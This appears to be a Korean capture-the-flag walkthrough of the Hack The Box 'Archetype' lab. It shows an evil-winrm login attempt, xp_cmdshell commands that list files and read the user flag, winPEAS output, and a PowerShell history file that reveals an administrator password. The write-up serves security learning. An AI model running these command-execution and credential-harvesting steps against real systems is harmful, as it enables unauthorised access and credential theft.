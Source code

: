 ``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.95.187 -u sql_svc -p M3g4c0rp123

Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```

로컬 파일을 찾아보던 중 아래와 같이 user.txt란 파일을 발견했고 해당 파일에는 user flag가 포함되어 있다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell dir c:\Users\sql_svc\Desktop
output
--------------------------------------------------
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F
 Directory of c:\Users\sql_svc\Desktop

01/20/2020  05:42 AM    <DIR>          .
01/20/2020  05:42 AM    <DIR>          ..
02/25/2020  06:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,738,532,352 bytes free

SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell type c:\Users\sql_svc\Desktop\user.txt
output
--------------------------------
3e7b102e78218e935bf3f4951fec21a3
```

winPEAS.ps1의 결과를 보던 중 아래의 내용이 발견되었다.
``` bash
=========|| PowerShell History (Password Search Only)
=|| PowerShell Console History
=|| To see all history, run this command: Get-Content (Get-PSReadlineOption).HistorySavePath

=|| AppData PSReadline Console History
=|| To see all history, run this command: Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

=|| PowesRhell default transrcipt history check
```
해당 파일을 출력해보면 administrator의 계정정보를 획득할 수 있다. 보아하니 smb 관련하여 관리자 계정으로 접근했던 이력이 파일에 남은 듯 하다.
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
output
-----------------------------------------------------------------------
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```
